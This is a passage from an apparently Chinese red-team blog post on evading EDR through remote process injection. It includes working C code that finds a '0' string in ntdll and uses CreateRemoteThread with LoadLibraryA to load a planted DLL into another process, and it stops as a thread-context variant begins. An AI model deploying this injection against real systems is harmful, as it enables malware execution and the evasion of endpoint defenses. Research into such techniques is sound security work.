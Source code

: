 #  探讨进程注入：CONTEXT-Only  
原创 半只红队  半只红队   2025-06-09 14:22  
  
在基本的远程进程注入中，EDR会监视这经典的三个迹象：  
- 给进程分配新的内存：VirtualAllocEx  
  
- 修改此进程的内存：WriteProcessMemory、VirtualProtectEx  
  
- 执行：CreateRemoteThread  
  
在这篇文章中，我们依据这一篇文章（https://blog.fndsec.net/2025/05/16/the-context-only-attack-surface/）进行讲解：测试远程进程注入的下限。  
## Learn from LoadLibrary  
  
在DLL注入中，我们会给进程分配一块空间用来存储DLL的路径，以便在目标进程中拥有有效的可寻址数据，接着写入DLL的路径，最后使用CreateRemoteThread远程执行LoadLibraryA，参数即远程写入的DLL路径的内存地址。  
  
LoadLibrary会自动将.dll附加到它接受的任何字符串，接着按照DLL的搜索顺序进行搜索，所以，我们可以找到一个进程内现有的字符串，例如“0”，并在某个位置放置一个名为0.dll的文件。我们CreateRemoteThread启动一个远程线程，启动例程为LoadLibraryA，参数为目标内“0”字符串的地址，最终导致DLL被加载到目标进程中。  
  
那“0”这个字符串如何找呢？这得说说Windows对于系统DLL的特性了，Windows将系统DLL映射到各个进程中，这些部分由相同的物理内存支持，每个进程仅接受其虚拟地址的视图。此时他们的内存属性还是共享的，若是某个进程尝试修改它们，系统内核会创建此页面的私有副本，确保不会影响共享的内存。另外，系统DLL会在所有进程中加载到一致的基地址，以优化重定位的性能。  
  
所以，当前进程里的如ntdll base+0x10086这样的地址，在所有的进程中都基本指向相同的字节。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/FnzeUmRapq7hYz1Vb1OIWnKF75FbUaiafk5hoUw7MfVePSgMT9F2QdOQaw63OicXqvcATsHCMEwlIdW1VzLib25Iw/640?wx_fmt=png&from=appmsg "")  
  
代码例子如下所示：  
```
HANDLE hProcess = OpenProcess(PROCESS_CREATE_THREAD, FALSE, pid);if (hProcess == INVALID_HANDLE_VALUE) {    printf("[-] False to Open Process Handle pid: %d\n", pid);    return-1;}// Find the '0' from ntdllMEMORY_BASIC_INFORMATION mbi;LPVOID pZero = NULL;ULONG_PTR pNtdll = (ULONG_PTR)GetModuleHandleA("ntdll.dll");while (VirtualQuery(pNtdll, &mbi, sizeof(mbi)) == sizeof(mbi)) {    if (mbi.State == MEM_COMMIT && (mbi.Protect & PAGE_READONLY)) {        if (mbi.RegionSize < 2) {            pNtdll = (LPVOID)((DWORD_PTR)mbi.BaseAddress + mbi.RegionSize);            continue;        }        BYTE* base = (BYTE*)mbi.BaseAddress;        for (size_t i = 0; i < mbi.RegionSize - 1; i++) {            if (base[i] == '0' && base[i + 1] == 0) {                pZero = (LPVOID)((DWORD_PTR)mbi.BaseAddress + i);                break;            }        }        if (pZero)            break;    }    if ((DWORD_PTR)mbi.BaseAddress + mbi.RegionSize < (DWORD_PTR)mbi.BaseAddress) {        break;    }    pNtdll = (LPVOID)((DWORD_PTR)mbi.BaseAddress + mbi.RegionSize);}HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)pfnLoadLibraryA, pZero, 0, NULL);if (!hThread) {    printf("[+] Can not CreateRemoteThread, GetLastError: %d\n", GetLastError());    return-1;}
```  
  
创建远程线程一定是一个恶意的行为吗？在原文作者利用ETW捕获创建者PID≠目标PID的线程创建事件，发现一分钟内有非常多的远程线程创建，而在360核晶环境下直接使用该方法却还是会报注入。  
## Context-Only？  
  
想到CreateRemoteThread还可以这么做，那为何不优化一下远程线程注入呢？我们不去远程分配VirtualAllocEx一块内存，那可以让目标进程自己分配一块内存。VirtualAlloc有四个参数，但是CreateRemoteThread仅给你一个，所以CONTEXT来了，创建挂起的线程、GetThreadContext、SetThreadContext、ResumeThread一连下来应该可行？  
  
而实际上却不能直接做到，下面是复现原作者的debug过程：  
### Empty Initial Stack  
  